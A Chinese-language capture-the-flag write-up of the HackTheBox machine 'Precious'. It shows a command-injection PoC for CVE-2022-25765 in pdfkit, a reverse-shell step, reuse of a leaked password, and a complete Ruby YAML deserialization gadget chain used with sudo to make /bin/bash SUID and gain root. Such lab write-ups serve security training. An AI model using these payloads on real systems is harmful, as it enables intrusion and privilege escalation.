 ﻿![在这里插入图片描述](https://img-blog.csdnimg.cn/c61181ad065f424ebc80d6bf4c6f5d48.png)

靶机网址：
```
https://app.hackthebox.com/machines/Precious
```
# 枚举
使用nmap枚举靶机
```
nmap -sC -sV 10.10.11.189
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a4bda55066714e72b697834b723dee71.png)

发现域名，我们本地DNS解析一下
```
echo "10.10.11.189 precious.htb" >> /etc/hosts
```
然后访问网站
# CVE-2022-25765利用

![在这里插入图片描述](https://img-blog.csdnimg.cn/ba987b8403ee40d29793710e401839b7.png)

他的功能是将网站页面转换成PDF文件，我们本地用python开启一个http服务
```
python3 -m http.server 80
```
返回网站，然后输入

![在这里插入图片描述](https://img-blog.csdnimg.cn/39bf4880a6bf4cc496bf58a6bb3ee10a.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/26ba1332488d431bb1ed52ee2b4fe94e.png)

他将我目录下的文件转换为PDF了，我们保存一下这个pdf文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/f5726be3eaa5462880abb6bd04cffabb.png)



![在这里插入图片描述](https://img-blog.csdnimg.cn/a244c0d1161242d1ae70362634837d60.png)
```
exiftool 4pukysg1oivmrhiow532m9v4olsfv3p2.pdf
```

通过分析这个PDF文件，发现他使用的是pdfkit v0.8.6

![在这里插入图片描述](https://img-blog.csdnimg.cn/bb2cb02093284c768493e4dc0f1cdd50.png)

通过google搜索，发现这个版本存在CVE-2022-25765漏洞
```
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/d8c5ae1be62f437b8c62239992308c9d.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/1cc9c4cb36ee4e2c880ea972d9dcfdc9.png)

我们可以远程执行代码，poc为
```
http//ip?name=%20`command`
```
我们返回网站执行试试

![在这里插入图片描述](https://img-blog.csdnimg.cn/ab7a881a58b5441cb638bfb7237d2476.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/27015b6486294ca5a056adbdab0678ed.png)

成功执行了我们的命令，现在我们直接反弹shell即可

首先先用nc监听一个端口

![在这里插入图片描述](https://img-blog.csdnimg.cn/06ee2410c8de485aa16c2075f5b7bf3c.png)


```
https://www.revshells.com/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0da2d85400f740d39b1c1b5985204618.png)

选择python3，修改ip和端口，回到靶机网页，然后粘贴这个命令即可

![在这里插入图片描述](https://img-blog.csdnimg.cn/79bb2881bf304450b59b164525730dbb.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/15027bdeab924a2ea71f579466ffcbe2.png)

在home目录里找了一下，发现ruby用户目录下有一个奇怪的文件夹

![在这里插入图片描述](https://img-blog.csdnimg.cn/6b538d9b17934064a84e45b5cf24e850.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/b8e4dfd810c244b9b3f5c510d819bf4d.png)

config文件里存放着henry用户的密码，我们ssh登录即可

```
ssh henry@10.10.11.189
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d833091f36294642881b4f47b479e61e.png)
# YAML反序列化攻击提权
在输入sudo -l时，发现有一个文件可以以sudo命令执行

![在这里插入图片描述](https://img-blog.csdnimg.cn/29de9a8675174a66a2fc65e265792c32.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/c5fcb0606a6e4ba794ed6a8794c666d7.png)
```
# Compare installed dependencies with those specified in "dependencies.yml"                                                                                                                                                                                                                                                
require "yaml"                                                                                                                                                                                                                                                                                                             
require 'rubygems'                                                                                                                                                                                                                                                                                                         
                                                                                                                                                                                                                                                                                                                           
# TODO: update versions automatically                                                                                                                                                                                                                                                                                      
def update_gems()                                                                                                                                                                                                                                                                                                          
end                                                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                           
def list_from_file                                                                                                                                                                                                                                                                                                         
    YAML.load(File.read("dependencies.yml"))                                                                                                                                                                                                                                                                               
end                                                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                           
def list_local_gems                                                                                                                                                                                                                                                                                                        
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}                                                                                                                                                                                                                       
end                                                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                           
gems_file = list_from_file                                                                                                                                                                                                                                                                                                 
gems_local = list_local_gems                                                                                                                                                                                                                                                                                               
                                                                                                                                                                                                                                                                                                                           
gems_file.each do |file_name, file_version|                                                                                                                                                                                                                                                                                
    gems_local.each do |local_name, local_version|                                                                                                                                                                                                                                                                         
        if(file_name == local_name)                                                                                                                                                                                                                                                                                        
            if(file_version != local_version)                                                                                                                                                                                                                                                                              
                puts "Installed version differs from the one specified in file: " + local_name                                                                                                                                                                                                                             
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
通过google发现，yaml有一个反序列化的漏洞

![在这里插入图片描述](https://img-blog.csdnimg.cn/54f141e9af65444fb92f26eabcdadd31.png)

payload为

```
https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f3b4aabe1b78481bb48e49e6e8d52cf6.png)

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/11eb40a3fc1c49bb89f73015e4a7db4e.png)

这里读取的是一个名叫dependencies.yml的文件，所以我们要把payload的文件名改成这个

![在这里插入图片描述](https://img-blog.csdnimg.cn/22988bf29f68476db9e8b79a7841a827.png)

执行
```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/176f7533d798486ab82be7cd2d5f9b34.png)

成功执行了id命令，接下来赋予/bin/bash suid权限即可提权

![在这里插入图片描述](https://img-blog.csdnimg.cn/7d28a6636b9a4bf8a30edbdd56d121ba.png)

执行
```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fe5962fc793d4c4d8615b9645816d35a.png)

成功赋予suid权限
```
/bin/bash -p
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/a3475df4c4054f20bb444f42ff6ab34c.png)

成功获得root权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/2809b08ed8474edca053fb535e8e9939.png)

